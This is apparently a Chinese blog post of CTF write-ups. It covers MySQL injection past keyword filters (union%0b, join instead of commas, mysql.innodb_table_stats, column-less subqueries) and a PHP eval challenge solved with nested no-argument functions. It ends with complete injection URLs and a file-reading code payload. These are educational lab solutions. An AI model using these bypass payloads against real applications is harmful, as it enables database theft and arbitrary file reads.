 ```yaml
---

layout:     post                    # 使用的布局（不需要改）
title:      对两道CTF题目的研究               # 标题 
subtitle:    #副标题
date:       2019-11-15              # 时间
author:     Von                      # 作者
header-img: img/post-bg-swift.jpg
catalog: true                       # 是否归档
tags:                               #标签
    - Web
    - CTF
    - SQL
    - PHP 

---
```


# sql注入
首先经过fuzz,得出主要过滤了以下字符:
```  sql
and(&&) or(||) , max min -- xor ^  updatexml sleep if (union select) 
```
首先union select我们可以用union%0b绕过,至于逗号我们可以用join绕过。但是最蛋疼的是or被过滤，而我们的information_schema中有or,看了wp才了解了一种新的方法。

在此之前我们先来学习一下相关的知识。

## mysql.innodb_table_stats表
在mysql5.6以上的版本中，会在系统库MYSQL库中存在两张与innodb相关的表innodb_index_stats和innodb_table_stats。
其中innodb_index_stats存储的是innodb引擎的库名,表名及其对应的索引名称，也就是和information_schema.schemata差不多。
innodb_table_stats存储的是innodb引擎的库名和表名,也就是和information_schema.tables差不多。
其结构如下:
![](/img/SQLI1.png)
那么也就意味着我们可以在注入中使用如:
``` sql
group_concat(table_name) from mysql.innodb_table_stats where database_name = database()
```
来代替:
``` sql
group_concat(table_name) from information_schema.tables where table_schema = database()
```
当然，这种方法的缺点就是它没有像information_schema.columns一样的表，所以没有办法用这种方法爆出列名，因此就需要借助我们接下来的子查询了。

## 子查询
> 子查询是将一个查询语句嵌套在另一个查询语句中。在特定情况下，一个查询语句的条件需要另一个查询语句来获取，内层查询(inner query)语句的查询结果，可以为外层查询(outer query)语句提供查询条件。


我们先来看一个例子:
``` sql
select 1,2,3,4,5,6,7,8 union select * from users
select (select 1)a,(select 2)b,(select 3)c,(select 4)d,(select 5)e,(select 6)f,(select 7)g,(select 8)h union select * from users
```
![](/img/SQLI2.png)
可以看出，在我们不知道列名的情况下我们得到了一个新表，并且将列名用1，2，3代替了。  
接下来就可以利用子查询将数据归并。
``` sql
select `3` from (select 1,2,3,4,5,6,7,8 union select * from users)a limit 1 offset 1;
select x.3 from (select * from (select 1)a,(select 2)b,(select 3)c,(select 4)d,(select 5)e,(select 6)f,(select 7)g,(select 8)h union select * from users)x limit 1 offset 1;
```
![](/img/SQLI3.png)

## 解决
所以我们可以构造出相应的payload:
``` sql
/article.php?id=0' union%0bselect * from (select 1)a join (select 2)b join (select 3)c join (select 4)d%23
/article.php?id=0' union%0bselect * from (select 1)a join (select (select group_concat(table_name) from mysql.innodb_table_stats where database_name like database()))b join (select 3)c join (select 4)d%23
/article.php?id=0' union%0bselect * from (select 1)z join (select i.3 from (select * from (select 1)a join (select 2)b join (select 3)c union%0bselect * from fl111aa44a99g)i limit 1 offset 1)x join (select 3)v join (select 3)n%23
```

# Decade
先来看核心代码:
``` php
<?php 
$code=@$_POST['code'];
if (';' === preg_replace('/[a-z]+\((?R)?\)/', NULL, $code)) {
                if (preg_match('/et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', $code)) {
                    echo 'bye~';
                } else {
                    @eval($code);
                }
                }
else
{
    echo 'NO first';
}

?>
```

题目通过正则表达式来限制传入函数的模式只能为a(b(c()));类似的嵌套模式。同时还过滤了一些函数。首先我们需要读取文件，想到的是scandir();
但是无论是读取本文件夹的文件还是其他的我们都需要有个.。首先我们就要来考虑如何通过各种函数获取.。  

## 获取.。  
``` php
<?php
echo pos(localeconv());
# .
echo chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))));
# .
?>
```
通过上面两种操作我们可以得到.

## 进行chdir()
以上这两种办法可以得到.但是我们发现该文件夹里面只有一个index.php，所以我们需要跳到上一级目录，也就是进行chdir('...').  
至于如何获取...呢?scandir(’.’)扫描当前目录后回显是’.’,’…’，第二个元素是…,所以还需要通过chdir("…")来切换目录,chdir()的返回值为1.  

## 再次得到.
chdir()的返回值为1,我们需要从1得到.来让scandir()再次读取目录,我们可以用chr(46)得到.，所以问题就转化成如何从1得到46。  
其中一种方法是通过time()函数,该函数可参数可以随意传  
``` php
pos(localtime(time()));
```
该操作会返回一个0-60的值。  
故有最终payload:
``` php
code=echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv()))))))))))));
```
多次发包即可得到flag.

# 参考文章
[CSDN的文章](https://blog.csdn.net/qq_40884727/article/details/102924492)  
[简书的文章](https://www.jianshu.com/p/6eba3370cfab)
